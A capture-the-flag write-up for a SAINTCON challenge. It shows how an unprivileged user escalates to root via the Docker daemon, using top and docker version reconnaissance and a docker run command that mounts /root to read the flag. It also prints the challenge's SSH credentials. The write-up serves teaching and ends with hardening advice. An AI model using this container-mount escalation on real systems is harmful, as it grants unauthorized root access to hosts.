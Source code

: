 # i am groot.

## Brief

```
ssh -p2222 saintcon@54.214.94.66

password: saintcon

Get the flag in /root/flag.txt
```

## Process

Fundamentally, we need a way to escalate our privileges to `root` level so that we can read the flag.

The trick of this challenge is to determine what kind of environment you are running in. One easy way is to use TOP:

```
  PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND
   70 root      20   0  424828  37752  20836 S   0.3  0.9   3:05.45 docker-containe
    1 root      20   0   65508   6168   5460 S   0.0  0.2   0:00.03 sshd
   63 root      20   0  649396  79896  40444 S   0.0  2.0   1:15.35 dockerd
 1137 saintcon  20   0   48956   9448   3300 S   0.0  0.2   0:02.45 [agentd] - SLEE
 3602 root      20   0   90480   6600   5708 S   0.0  0.2   0:00.00 sshd
 3611 saintcon  20   0   90480   3276   2384 S   0.0  0.1   0:00.00 sshd
 3612 saintcon  20   0   18248   3288   2812 S   0.0  0.1   0:00.00 bash
 3622 saintcon  20   0   36688   3068   2576 R   0.0  0.1   0:00.00 top
```

So, we see some user sessions, and we also see `dockerd` running as root. Now, that looks interesting. 
An escalation of privileges vulnerability really just means that there's a way to run arbitrary code as a privileged user.
What is Docker?  Well, it's a way to run arbitrary code...and it's running as `root`.  Oops!

To confirm that we've got Docker available, let's run `docker version`:

```
Client:
 Version:           18.06.1-ce
 API version:       1.38
 Go version:        go1.10.3
 Git commit:        e68fc7a
 Built:             Tue Aug 21 17:24:56 2018
 OS/Arch:           linux/amd64
 Experimental:      false

Server:
 Engine:
  Version:          18.06.1-ce
  API version:      1.38 (minimum version 1.12)
  Go version:       go1.10.3
  Git commit:       e68fc7a
  Built:            Tue Aug 21 17:23:21 2018
  OS/Arch:          linux/amd64
  Experimental:     false
```

Hooray! Time to end our reconnaisance and start exploitation!

```
docker run --rm -v /root/:/pwned bash cat /pwned/flag.txt
```

TADA!

# Takeways

Don't run Docker as root!  See [The Docker docs](https://docs.docker.com/install/linux/linux-postinstall/#manage-docker-as-a-non-root-user) for details.
